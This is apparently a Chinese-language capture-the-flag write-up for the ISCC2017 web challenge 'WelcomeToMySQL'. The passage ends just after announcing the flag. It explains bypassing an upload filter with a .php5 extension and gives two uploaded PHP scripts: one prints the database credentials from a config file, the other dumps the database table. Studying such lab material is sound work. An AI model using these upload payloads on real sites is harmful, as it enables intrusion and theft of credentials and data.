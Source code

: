 ```yaml
---
title: WP for ISCC2017_WEB
categories: [CTF]
tags: [CTF, Writeup, WEB, ISCC2017, 文件上传, SQL注入, PHP弱类型]
---
```


## WelcomeToMySQL

> Description: Welcome to MySQL! SQL inject?

最初看这道题目的名称及描述以为是一道SQL注入的题目，但打开链接后，发现是文件上传，上传后的文件将会放在**upload**目录。

查看网页源码，发现有提示：

	hint:$servername,$username,$password,$db,$tb is set in ../base.php

访问`http://139.129.108.53:8081/web-01/base.php`，返回一个空页面，status=200，说明文件存在。

接下来的思路就比较明显，通过上传php文件，包含**base.php**文件，然后获得MYSQL数据库的用户名、密码等相关信息。

网站应该对文件的后缀名进行了过滤，当上传`.php`后缀文件的时候，上传会失败。`.php5`的文件后缀一样会被PHP解析执行（这里有一些[文件上传漏洞参考](https://xianzhi.aliyun.com/forum/mobile/read/672.html)），更改文件后缀为`.php5`，文件上传成功。上传文件内容如下：

``` php
<?php
	include "../base.php";
	echo $servername,$username,$password,$db,$tb;
?>
```

可以得到数据库相应的信息：

	localhostiscc2017iscc2017flagflag

数据库地址、用户名等信息都已经得到，起初想通过MYSQL客户端直接连接远程服务器，但是连接失败。转念一想，可以直接在PHP文件中读取数据库的内容，最终php代码如下：

``` php
<?php

	include "../base.php";
	echo $servername,$username,$password,$db,$tb;

	$conn = new mysqli($servername, $username, $password, $db);
	$sql = "SELECT * from $tb";
	$result = $conn->query($sql);
	while ($row = $result->fetch_assoc()) {
		foreach($row as $item)
			echo "<br>" . $item;
	}
	$conn->close();
?>
```

拿到FLAG：
